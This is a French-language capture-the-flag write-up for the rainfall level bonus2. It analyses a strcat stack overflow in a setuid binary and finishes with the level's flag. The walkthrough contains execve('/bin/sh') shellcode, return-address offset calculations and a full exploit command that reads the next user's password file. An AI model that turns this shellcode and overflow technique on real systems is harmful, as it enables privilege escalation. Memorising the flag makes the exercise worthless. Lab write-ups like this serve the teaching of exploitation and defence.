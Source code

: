 # rainfall : [bonus2]

Observations:
---

#### Source décompilée:
```c
int __cdecl greetuser(char src)
{
	char dest[22];

	switch ( language )
	{
		case 1:
			strcpy((char *)&dest, "Hyvää päivää ");	// size 18
			break;
		case 2:
			strcpy((char *)&dest, "Goedemiddag! ");	// size 13
			break;
		case 0:
			strcpy((char *)&dest, "Hello ");		// size 6
			break;
	}
	strcat((char *)&dest, &src);
	return puts((const char *)&dest);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
	char v4[76];
	char dest[76];
	char *v6;

	if ( argc != 3 )
		return 1;
	memset(dest, 0, sizeof(dest));
	strncpy(dest, argv[1], 0x28u);
	strncpy(&dest[40], argv[2], 0x20u);
	v6 = getenv("LANG");
	if ( v6 )
	{
		if ( !memcmp(v6, "fi", 2u) )
		{
			language = 1;
		}
		else if ( !memcmp(v6, "nl", 2u) )
		{
			language = 2;
		}
	}
	qmemcpy(v4, dest, sizeof(v4));
	return greetuser(v4[0]);
}
```

#### Entrées du programme:
| Nom | Description |
| --- | ----------- |
| `argv[1]` | Une chaîne de caractères |
| `argv[2]` | Une chaîne de caractères |


#### Détails du programme:
```bash
-rwsr-s---+ 1 bonus3 users  5664 Mar  6  2016 bonus2
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | Copie les **40** premiers octets de `argv[1]` dans le tableau `dest` de **76** octets, puis copie les **32** premiers <br> octets de `argv[2]` dans `dest` + **40**. <br> Ensuite elle récupère la variable environnement `LANG` et change la valeur de la variable globale `language` en conséquence. <br> Le contenue du tableau `dest` est copié dans le tableau `v4` de la même taille soit **76** octets. <br> Pour finir la fonction `<greetuser>` est appelée. |
| `<greetuser>` | Selon la valeur de `langage` la fonction copie la chaîne de caractères correspondante dans le tableau `dest` de **22** octets. <br> Grace à `<strcat>` elle concatène ensuite le tableau `dest` et le tableau `src` qui est un paramètre d'entrée. <br> La fonction fini par afficher à l'écran le tableau `dest` puis retourne. |


#### Conclusions:
Il y a une faille majeur dans la fonction `<greetuser>`, en effet si nous choisisons le langage `fi` le nombre d'octets utilisés dans la chaîne seras égale à **18**. \
C'est important car cela décale suffisament l'emplacement d'insertion du `<strcat>` ce qui suffit pour écraser l'adresse de retour de la fonction. \
Nous permettant de changer l'ordre d'exécution du programme vers le tableau `dest` qui contiendras notre injection de code. 

----
Résolution:
----
Nous allons injecter du code dans le tableau `dest` du main grace aux appels successifs à `<strncpy>`. \
Ce code va ensuite être copié dans le tableau `dest` de la fonction `<greetuser>` grace au `<strcat>`. \
Si nous calculons nous pouvons trouver l'emplacement de l'adresse de retour dans la fonction `<greetuser>` \
et donc le déplacement nécéssaire pour l'atteindre à partir du talbleau `dest` de la fonction `<greetuser>`.

```
ADR_DEST_GREETUSER	= 0xbffffce0
ADR_RETAD_GREETUSER	= 0xbffffd2c

DECALAGE_TO_RETADDR	= ADR_RETAD_GREETUSER - ADR_DEST_GREETUSER
					= 0x4c-> 76
```

Il suffit donc maintenant de créer la commande:
Tout d'abord nous plaçons le code shell de la fonction voulue de **24** octets, \
suivis de **16** caractères de bourrage dans le premier argument. \
Dans le deuxième il y aura **18** caractères de bourrage suivis de l'adresse de retour pointant vers le tableau `dest` de la fonction `<greetuser>` + **18** \
pour passer le message de bienvenue copié par la fonction. \
N'oublions pas de vider notre environnement et de laisser uniquement la variable `LANG` à `fi` avant d'exécuter notre commande.

> Les variables environement sont stockées dans la pile, décalant tout les adresses de cette dernière. \
> Un simple argument plus grand changerais toute les adresses !

#### Injection:
```asm
# La fonction injectée appelle <system> avec '/bin/sh' en paramètre:

0:  6a 0b                   	push   0xb
2:  58                      	pop    eax
3:  31 f6                   	xor    esi,esi
5:  56                      	push   esi
6:  68 2f 2f 73 68          	push   0x68732f2f
b:  68 2f 62 69 6e          	push   0x6e69622f
10: 89 e3                   	mov    ebx,esp
12: 31 c9                   	xor    ecx,ecx
14: 89 ca                   	mov    edx,ecx
16: cd 80                   	int    0x80
```

#### Commande:
```bash
echo $(echo $(unset $(env | cut -d= -f1); export LANG=fi; /home/user/bonus2/bonus2 $(/usr/bin/python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(/usr/bin/python -c "print('b'*18 + '\xbf\xff\xfc\xf2'[::-1])") <<< 'cat /home/user/bonus3/.pass'))
```

**Flag :** 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587